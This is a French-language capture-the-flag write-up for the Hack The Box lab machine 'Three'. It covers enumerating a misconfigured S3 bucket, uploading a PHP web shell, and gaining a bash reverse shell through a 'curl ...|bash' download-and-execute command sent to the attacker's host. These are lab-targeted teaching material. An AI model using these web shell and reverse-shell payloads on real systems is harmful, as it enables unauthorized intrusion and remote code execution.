




# Introduction

Bienvenue sur **Three**, une machine du **Tier 1** de **Starting Point** qui nous plonge dans le monde du cloud computing. Cette fois, on ne s'attaque pas à une base de données ou à un service réseau classique, mais à un **S3 bucket AWS** mal configuré, donc a du **Cloud**.

Cette machine illustre parfaitement comment une mauvaise configuration d'un service cloud peut transformer un simple espace de stockage en porte d'entrée pour un attaquant. Au menu, énumération de sous-domaines, interaction avec AWS CLI, upload de web shell PHP, et reverse shell bash.

>[!WARNING]
>Dans ce writeup, je ne publie pas directement le flag final, l'objectif est d'apprendre en pratiquant. Si vous voulez le flag, suivez les étapes sur la machine.

>[!CAUTION]
>**NOTE :** n'attaquez que des machines sur lesquelles vous avez l'autorisation (ex. machines HTB, ou lab perso). Respectez les règles de la plateforme.

## Vidéo Walkthrough

Je sortirais bientot un tuto vidéo, d'ici la tu peux aller checker ma chaine Youtube

 RavenBreach


---

## Reconnaissance

### Découverte d'hôte

On commence par l'habituel `ping` pour confirmer que la cible est en ligne et identifier le système d'exploitation.

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ ping 10.129.27.82

PING 10.129.27.82 (10.129.27.82) 56(84) bytes of data.
64 bytes from 10.129.27.82: icmp_seq=1 ttl=63 time=8.04 ms
64 bytes from 10.129.27.82: icmp_seq=2 ttl=63 time=8.09 ms
64 bytes from 10.129.27.82: icmp_seq=3 ttl=63 time=7.95 ms
64 bytes from 10.129.27.82: icmp_seq=4 ttl=63 time=8.17 ms
^C
--- 10.129.27.82 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3003ms
rtt min/avg/max/mdev = 7.946/8.059/8.170/0.080 ms
```

Le **TTL de 63** nous indique qu'il s'agit d'une machine **Linux** (le TTL par défaut de Linux est 64, diminué à 63 après un hop réseau).

### Énumération des services

Lançons un scan `nmap` pour identifier les services ouverts.

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ sudo nmap -sV 10.129.27.82

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-09 09:16 CST
Nmap scan report for 10.129.27.82
Host is up (0.0092s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.49 seconds
```

On trouve deux ports ouverts :
- **Port 22** : SSH (OpenSSH 7.6p1)
- **Port 80** : HTTP (Apache 2.4.29)

Le port 80 nous indique la présence d'une application web. Allons voir ça.


### Exploration de l'application web

En accédant à l'IP via un navigateur, on découvre un site web classique.


En explorant le site, on trouve un formulaire de contact. En inspectant le bouton **Send**, on confirme que le backend est en **PHP** car l'action pointe vers `/action_page.php`.



Plus intéressant encore, le formulaire affiche une adresse email : `mail@thetoppers.htb`. Cela nous révèle un nom de domaine potentiel : **thetoppers.htb**.

### Configuration DNS locale

Pour accéder à ce domaine, il faut l'ajouter à notre fichier `/etc/hosts` afin que notre système le résolve localement avant de consulter un serveur DNS.

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ echo "10.129.27.82 thetoppers.htb" | sudo tee -a /etc/hosts
```

Maintenant, en accédant à `http://thetoppers.htb`, on arrive sur la même page que précédemment.

### Énumération de sous-domaines

Maintenant que nous avons un nom de domaine, vérifions s'il existe des sous-domaines. Pour cela, on utilise **GoBuster** en mode **vhost** (virtual host).

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]
Found: gc._msdcs.thetoppers.htb Status: 400 [Size: 306]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

- ``--append-domain`` : Ajoute automatiquement le domaine de base à chaque mot de la wordlist. Par exemple, si la wordlist contient s3, GoBuster testera s3.thetoppers.htb au lieu de juste s3. Sans ce flag, on devrais avoir des entrées complètes dans notre wordlist.

>[!TIP]
Mode **DNS** fait des requêtes DNS pour vérifier si les sous-domaines existent dans les enregistrements DNS publics. Mode **VHOST** envoie directement des requêtes HTTP au serveur web en modifiant l'en-tête Host: pour détecter **les virtual hosts configurés localement sur le serveur**, même s'ils n'ont pas d'enregistrement DNS. Sur **HTB**, le mode **VHOST** est préférable car il trouve les sous-domaines configurés uniquement sur le serveur web sans DNS public.

Excellent ! On découvre deux sous-domaines :
- **s3.thetoppers.htb** (Status: 404)
- **gc._msdcs.thetoppers.htb** (Status: 400)

Le nom **s3** est particulièrement intéressant car il fait référence au service de stockage d'**Amazon Web Services**.

Ajoutons ces sous-domaines à notre `/etc/hosts` :

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ echo "10.129.27.82 s3.thetoppers.htb" | sudo tee -a /etc/hosts

10.129.27.82 s3.thetoppers.htb

┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ echo "10.129.27.82 gc._msdcs.thetoppers.htb" | sudo tee -a /etc/hosts

10.129.27.82 gc._msdcs.thetoppers.htb
```

### Exploration des sous-domaines

En consultant `s3.thetoppers.htb` dans le navigateur :



On obtient un simple JSON indiquant `{"status": "running"}`.

Pour `gc._msdcs.thetoppers.htb`, on reçoit une erreur **400 Bad Request**.


Le sous-domaine **s3** confirme qu'on a affaire à un service de type **AWS S3 bucket**.

---

## Pré-Exploitation

### Installation et configuration d'AWS CLI

Pour interagir avec le S3 bucket, nous devons installer **AWS CLI** (Command Line Interface).

```bash
sudo apt install awscli
```

Une fois installé, on configure AWS CLI. Certains serveurs S3 mal configurés n'authentifient pas correctement les requêtes, donc on peut entrer des valeurs arbitraires (tant qu'elles ne sont pas nulles).

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ aws configure

AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

### Énumération des buckets S3

Listons les buckets S3 disponibles sur le serveur en spécifiant l'endpoint avec la commande ``ls`` :

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ aws --endpoint=http://s3.thetoppers.htb s3 ls

2026-01-09 08:58:28 thetoppers.htb
```

On découvre un bucket nommé **thetoppers.htb**. Listons son contenu :

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

                           PRE images/
2026-01-09 08:58:28          0 .htaccess
2026-01-09 08:58:28      11952 index.php
```

On trouve :
- Un dossier **images/**
- Un fichier **.htaccess**
- Un fichier **index.php**

Cela ressemble fortement à la racine de l'application web ! Le serveur Apache utilise donc ce S3 bucket comme **système de stockage**.

---

## Exploitation

### Exploitation de la misconfiguration

Si le bucket autorise les uploads publics, nous pouvons y déposer un **web shell PHP** qui sera ensuite accessible via le navigateur.

Créons un simple web shell PHP qui exécute des commandes système via le paramètre `cmd` :

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Uploadons ce fichier sur le bucket S3 graçe a la commande ``cp`` :

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb

upload: ./shell.php to s3://thetoppers.htb/shell.php
```

### Vérification du web shell

Testons si notre web shell fonctionne en exécutant la commande `id` :

```
http://thetoppers.htb/shell.php?cmd=id
```



Bingo ! Le code s'exécute bien côté serveur. On voit l'output de la commande `id` s'afficher. Nous avons une **Remote Code Execution (RCE)**.

### Préparation du reverse shell

Maintenant que nous pouvons exécuter des commandes, créons un **reverse shell** pour obtenir un accès interactif au serveur.

Récupérons d'abord notre IP (interface VPN) :

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.86  netmask 255.255.254.0  destination 10.10.14.86
        inet6 fe80::97c2:35db:7fb2:33c8  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1054  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 39967  bytes 44005236 (41.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 27892  bytes 2475447 (2.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Notre IP est **10.10.14.86**.

Créons un script bash qui établira une connexion shell inverse vers notre machine :

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.86/1337 0>&1
```

Sauvegardons ce script dans `reverse_shell.sh`.

### Mise en place du listener

Lançons un listener **netcat** sur le port **1337** pour recevoir la connexion :

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ nc -nvlp 1337

listening on [any] 1337 ...
```

### Hébergement du payload

Démarrons un serveur HTTP Python dans le dossier contenant notre script de reverse shell :

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### Déclenchement du reverse shell

Maintenant, utilisons notre web shell pour télécharger et exécuter notre script de reverse shell :

```
http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.86:8000/reverse_shell.sh|bash
```



La page charge indéfiniment (c'est normal, le shell est en cours d'exécution). Retournons sur notre terminal avec netcat :


La connexion est établie ! Nous avons un shell sur la machine cible.

---

## Post-Exploitation

### Recherche du flag

Maintenant que nous avons un accès shell, explorons le système pour trouver le flag.

```bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.86]─[ravenbreach@htb-7z1b5cq7og]─[~]
└──╼ [★]$ nc -nvlp 1337

listening on [any] 1337 ...
connect to [10.10.14.86] from (UNKNOWN) [10.129.27.82] 51126
bash: cannot set terminal process group (1500): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$ ls

ls
images
index.php
shell.php
www-data@three:/var/www/html$ cd ../

cd ../
www-data@three:/var/www$ ls

ls
flag.txt
html
www-data@three:/var/www$ cat flag.txt	

cat flag.txt
a98{...}c2b
```

Le flag est récupéré ! La machine est ***pwned*** !

---

## Conclusion

Cette machine nous a appris à exploiter une misconfiguration courante dans le cloud : un **S3 bucket AWS mal sécurisé**. Voici le récapitulatif de notre chaîne d'attaque :

1. **Énumération de sous-domaines** => Découverte de `s3.thetoppers.htb` graçe a **gobuster**
2. **Interaction avec AWS CLI** => Listing et upload de fichiers sur le bucket avec **awscli**
3. **Arbitrary File Upload de web shell PHP** => Remote Code Execution via le navigateur avec un script **php**
4. **Reverse shell bash** => Accès interactif au serveur sur notre machine avec **netcat** et un **script bash**
5. **Récupération du flag**

<!-- ---

## Pour aller plus loin

### Script automatisé
Ce n'est pas encore fait mais je prévois de faire un script automatisé !

### Rapport professionnel
Ce n'est pas encore fait mais je prévois de faire un rapport professionnel ! -->